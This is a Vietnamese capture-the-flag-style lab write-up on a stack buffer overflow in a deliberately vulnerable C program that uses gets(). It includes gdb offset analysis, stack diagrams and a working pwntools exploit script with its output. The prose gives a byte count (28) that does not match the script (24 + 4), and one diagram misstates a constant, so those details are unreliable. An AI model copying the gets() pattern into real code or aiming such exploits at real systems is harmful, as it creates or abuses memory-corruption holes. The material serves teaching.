 # NT209.L21.ANTN-Bonus-19520982
## Task
```c
# include <stdio.h>
# include<stdlib.h>

int student_id;

void smash_my_buffer()
{
    int var = 0x12345678;
    int another_var = 0x0;

    char buf[20];
    gets(buf);

    if ((var != 0x12345678) || (another_var != 0))
        printf("You changed my local variables.\n");

    if (var == student_id)
           printf("Nice works. You've changed my var to %d. That's what I need :)\n",var);
    else
           printf("Almost there. My var is %d now. Try harder.\n", var);
}

int main(int argc, char *argv[])
{
    if (argc < 2)
    {
        printf("Please provide your Student ID.\nUsage: %s <your id>\n", argv[0]);
        exit(0);
    }

    student_id = atoi(argv[1]);
    smash_my_buffer();
}
```  
> Thay đổi giá trị `var` thành `student_id`.  

## Solution
Debug chương trình bằng `gdb`.  

![image](https://user-images.githubusercontent.com/44528004/121312808-f2422880-c92f-11eb-9a09-5767b314cf8b.png)  

Trong quá trình debug, ta có thấy rằng, biến `var` nằm tại địa chỉ `ebp - 0xc` và biến `another_var` nằm tại địa chỉ `ebp - 0x10`. Đồng thời, biến `buf` nằm tại vị trí `ebp - 0x24`.  

Stack:
```
+---------------------------------+
|           saved ebp             |
+---------------------------------+---> ebp của hàm smash_my_buffer()
                ...
+---------------------------------+
|           0x1234578             |
+---------------------------------+---> ebp - 0xc
|              0x0                |
+---------------------------------+---> ebp - 0x10
                ... ---> 16 bytes
+---------------------------------+
|               buf               |
+---------------------------------+---> ebp - 0x24
```  

Vậy để thay đổi giá trị của biến `var` tại ô nhớ `ebp - 0xc`, chúng ta cần nhập giá trị cho biến `buf` với độ dài `0x1c` (`28`) bytes. Trong đó, `20` bytes đầu để fill hết vùng nhớ của `buf`, 4 bytes tiếp theo để ghi đè biến `another_var` tại ô nhớ `ebp - 0x10`, và 4 bytes cuối cùng là giá trị `student_id`.  

Stack khi bị overflowed.  
```
+---------------------------------+
|           saved ebp             |
+---------------------------------+---> ebp của hàm smash_my_buffer()
                ...
+---------------------------------+
|           0x0129ddd6            |---> 0x0129ddd6 = hex(19520982)
+---------------------------------+---> ebp - 0xc
|             'AAAA'              |
+---------------------------------+---> ebp - 0x10
                ... ---> 16 bytes
+---------------------------------+
|             'AAAA'               |
+---------------------------------+---> ebp - 0x24
```

Viết script exploit:  
```python
#! /bin/python3

from pwn import *

context.binary = './simple-buffer'

io = process(['./simple-buffer', '19520982'])

e = ELF('./simple-buffer')

exploit_payload = b'A' * (0x24 - 0xc) + p32(int('19520982'))
print(exploit_payload)

io.sendline(exploit_payload)
io.interactive()
```  
### Kiểm tra kết quả
```
└─$ python3 solution.py
[*] '/mnt/f/lab 6/simple-buffer'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './simple-buffer': pid 107
b'AAAAAAAAAAAAAAAAAAAAAAAA\xd6\xdd)\x01'
[*] Switching to interactive mode
[*] Process './simple-buffer' stopped with exit code 0 (pid 107)
You changed my local variables.
Nice works. You've changed my var to 19520982. That's what I need :)
[*] Got EOF while reading in interactive
$
```
> Thành công!
